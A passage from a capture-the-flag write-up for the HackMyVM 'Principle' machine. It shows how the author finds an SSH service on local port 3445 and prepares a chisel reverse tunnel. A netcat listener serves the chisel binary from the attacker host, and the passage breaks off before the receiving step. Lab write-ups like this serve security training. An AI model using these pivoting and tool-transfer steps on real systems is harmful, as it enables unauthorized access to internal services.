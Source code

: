 ### SSH

We have to check if there is a SSH service running without being exposed to the outside.

```
$ systemctl status sshd
● ssh.service - OpenBSD Secure Shell server
     Loaded: loaded (/lib/systemd/system/ssh.service; enabled; preset: enabled)
     Active: active (running) since
       Docs: man:sshd(8)
             man:sshd_config(5)
    Process: 441 ExecStartPre=/usr/sbin/sshd -t (code=exited, status=0/SUCCESS)
   Main PID: 461 (sshd)
      Tasks: 1 (limit: 202)
     Memory: 4.6M
        CPU: 333ms
     CGroup: /system.slice/ssh.service
             └─461 "sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups"
```

There is a ssh service running. Now we have to find in which port:

```
$ ss -tunel
talos@principle:~/.ssh$ ss -tunel
Netid          State           Recv-Q           Send-Q                     Local Address:Port                     Peer Address:Port          Process                                                                
udp            UNCONN          0                0                                0.0.0.0:68                            0.0.0.0:*              ino:14407 sk:1 cgroup:/system.slice/ifup@enp0s3.service <->           
tcp            LISTEN          0                128                              0.0.0.0:3445                          0.0.0.0:*              ino:14524 sk:2 cgroup:/system.slice/ssh.service <->
```

Ok. There is a SSH service running on port 3445 and not exposed to the outside.

As we don't have permissions to execute ssh, we need to do a reverse proxy tuneling.
And, for this, we are going yo use `chisel`.

We need to know the machine architecture to know what `chisel` binary upload:

```
talos@principle:~/.ssh$ uname -a
Linux principle 6.1.0-9-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.27-1 (2023-05-08) x86_64 GNU/Linux
```

We already knew that it was a linux machine, and now, we also know that it has an amd64 architecture, so we need to upload the linux_amd64 binary.
We will send the binary from our host to the server using `netcat`.
We start the file transfer on our host:

```
$ nc -lvnp 443 < chisel_1.8.1_linux_amd64
```

And we start receiving the file in the [Principle][2] machine:


[1]: https://[Kaian][1]perez.github.io
[2]: https://hackmyvm.eu/machines/machine.php?vm=Principle